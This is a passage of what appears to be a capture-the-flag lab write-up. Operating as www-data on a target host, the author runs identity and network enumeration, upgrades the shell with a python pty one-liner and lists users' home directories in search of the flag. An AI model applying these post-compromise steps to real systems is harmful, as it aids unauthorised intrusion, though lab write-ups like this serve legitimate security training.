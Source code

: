 
#### >> Now that the connection is established, let's gather information about our identity, roles, and the system we are interacting with.
```shell
$ whoami;id;hostname;ip a; pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
quick
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:41:d3:56 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.142/24 brd 192.168.0.255 scope global dynamic enp0s3
       valid_lft 6900sec preferred_lft 6900sec
    inet6 fe80::a00:27ff:fe41:d356/64 scope link 
       valid_lft forever preferred_lft forever
/
$ 
```

<strong>As we're currently operating as www-data and need more privileges, let's enhance our shell.</strong>
```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@quick:/$ 
```

#### >> Enumerate the home directories of the users and begin searching for our flag
```shell
www-data@quick:/$ ls -ahlR /home
ls -ahlR /home
/home:
total 12K
drwxr-xr-x  3 root   root   4.0K Dec 16 14:38 .
drwxr-xr-x 20 root   root   4.0K Dec 16 14:28 ..
drwxr-xr-x  7 andrew andrew 4.0K Dec 16 18:36 andrew

/home/andrew:
total 48K
drwxr-xr-x 7 andrew andrew 4.0K Dec 16 18:36 .
drwxr-xr-x 3 root   root   4.0K Dec 16 14:38 ..
-rw------- 1 andrew andrew   75 Dec 16 18:50 .bash_history
-rw-r--r-- 1 andrew andrew  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 andrew andrew 3.7K Feb 25  2020 .bashrc
drwx------ 2 andrew andrew 4.0K Dec 16 14:39 .cache
drwx------ 3 andrew andrew 4.0K Dec 16 18:34 .gnupg
drwxrwxr-x 3 andrew andrew 4.0K Dec 16 18:21 .local
-rw-r--r-- 1 andrew andrew  807 Feb 25  2020 .profile
drwx------ 2 andrew andrew 4.0K Dec 16 14:39 .ssh
-rw-r--r-- 1 andrew andrew    0 Dec 16 14:39 .sudo_as_admin_successful
drwx------ 3 andrew andrew 4.0K Dec 16 18:26 snap
-rw-rw-r-- 1 andrew andrew 1.1K Dec 16 18:21 user.txt
ls: cannot open directory '/home/andrew/.cache': Permission denied
ls: cannot open directory '/home/andrew/.gnupg': Permission denied

/home/andrew/.local:
total 12K
drwxrwxr-x 3 andrew andrew 4.0K Dec 16 18:21 .
```